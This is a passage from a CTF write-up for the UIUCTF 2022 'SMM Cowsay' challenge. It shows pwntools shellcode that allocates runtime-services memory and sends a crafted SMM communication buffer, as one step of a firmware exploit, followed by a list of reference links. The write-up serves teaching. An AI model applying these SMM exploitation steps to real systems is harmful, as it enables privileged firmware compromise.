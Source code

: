 In fact, looking at the code for `Binexec.efi` above, in the `Cowsay()` function
the `EFI_SMM_COMMUNICATE_HEADER` is actually allocated using the library
function `AllocateRuntimeZeroPool()`. We don't have a nice pointer to this
function, but can allocate memory using either `BootServices->AllocatePool()` or
`BootServices->AllocatePages()` specifying the "type" of memory we want to
allocate. The `EFI_MEMORY_TYPE` we want is
[the type `EfiRuntimeServicesData`][edk2-EfiRuntimeServicesData], which will be
accessible from SMM.

```python
EfiRuntimeServicesData = 6

code = asm(f'''
    /* AllocatePool(EfiRuntimeServicesData, 0x1000, &buffer) */
    mov rcx, {EfiRuntimeServicesData}
    mov rdx, 0x1000
    lea r8, qword ptr [rip + buffer]
    mov rax, {AllocatePool}
    call rax

    test rax, rax
    jnz fail

    mov rax, qword ptr [rip + buffer]
    ret

fail:
    ud2

buffer:
''')
conn.sendline(code.hex().encode() + b'\ndone')

conn.recvuntil(b'RAX: 0x')
buffer = int(conn.recvn(16), 16)
log.success('Allocated buffer @ 0x%x', buffer)

code = asm(f'''
    /* Copy data into allocated buffer */
    lea rsi, qword ptr [rip + data]
    mov rdi, {buffer}
    mov rcx, 0x20
    cld
    rep movsb

    /* Communicate(mSmmCommunication, buffer, NULL) */
    mov rcx, {mSmmCommunication}
    mov rdx, {buffer}
    xor r8, r8
    mov rax, {Communicate}
    call rax

    test rax, rax
    jnz fail
    ret

fail:
    ud2

data:
    .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */
    .quad 8                                /* Buffer->MessageLength */
    .quad 0x44440000                       /* Buffer->Data */
''')
```

[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31